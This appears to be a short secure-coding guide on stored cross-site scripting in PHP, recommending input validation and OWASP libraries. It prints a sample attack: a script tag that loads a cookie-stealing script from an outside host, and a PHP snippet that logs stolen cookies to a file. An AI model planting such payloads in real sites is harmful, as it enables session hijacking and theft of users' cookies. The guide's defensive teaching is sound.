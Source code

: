 # PHP Stored Anti-pattern

Avoid stored Cross site script by validating input that attempts to save
or store a XSS code in the database. You can use the OWASP PHP Security
Framework to validate any attempt to submit information to the database
when an malicious user attempts to submit information which contains XSS
code.

Websites that do not validate properly XSS code that can be stored, are
vulnerable to Cookie stealing sessions

Example, a malicious user will submit the following code in a (text)
input field that does not validate input

<script src="http://192.168.120.20/stealcookie.php">

</script>

<?php
     $cookie = $HTTP_GET_VARS["cookie"];
     $file = fopen('cookiesteal.txt', 'a');
     fwrite($file, $cookie . "\n\n");
   ?>

And through this simple script, the user will be able to get the cookies
delivered to his server.

## OWASP XSS Cheat sheets

To get an overview of potential XSS code that can be maliciously
submitted through web forms, use the OWASP XSS Cheat sheets online to
test and determined potential vulnerabilities.
<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

## OWASP PHP Security Framework

To protect your site against these type of attacks you can implement the
OWASP PHP security libraries in the php applcation, visit
<https://www.owasp.org/index.php/OWASP_PHP_Security_Project>